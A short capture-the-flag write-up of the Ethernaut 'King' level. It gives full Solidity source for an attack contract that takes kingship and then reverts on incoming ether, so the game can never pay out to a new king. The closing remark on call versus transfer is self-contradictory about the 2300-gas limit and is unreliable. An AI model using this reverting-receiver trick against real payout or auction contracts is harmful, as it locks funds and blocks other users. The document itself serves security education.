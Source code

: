 # [9. King](https://ethernaut.openzeppelin.com/level/0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5)

The ponzi starts with 0.001 ether. We can exploit the game by giving an greater or equal ether, but via a contract that disallows receiving ether. This way, if someone is eligible to be the new king, the transaction will fail when it tries to send us the prize!

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;
 
contract OneWayForward {  

  receive () external payable {
  revert("Im the king!");
  }

  fallback () external payable {
  revert("Im the king!");
  }
  
  function forward(address payable _to) public payable {
  (bool sent, ) = _to.call{value: msg.value}("");
  require(sent, "forwarded call failed");
  }

}
```

The contract is simple: a forward function forwards our sent money to some address. The recieving address will know the contract as `msg.sender`, however they won't be able to send money back. Preventing to recieving money can be done by **not** implementing `receive` and `fallback` functions. In my case, I wanted to be a little bit cheeky and I implement them but inside revert with "Im the king!" message when they send me money ;)

**A note on Call vs. Transfer**: We used `_to.call{value: msg.value}("")` instead of `_to.transfer(msg.value)`. This is because `transfer` sends 2300 gas to the receiver, but that gas is enough for the code to run on their side; so we must forward all our gas to them with `call`.
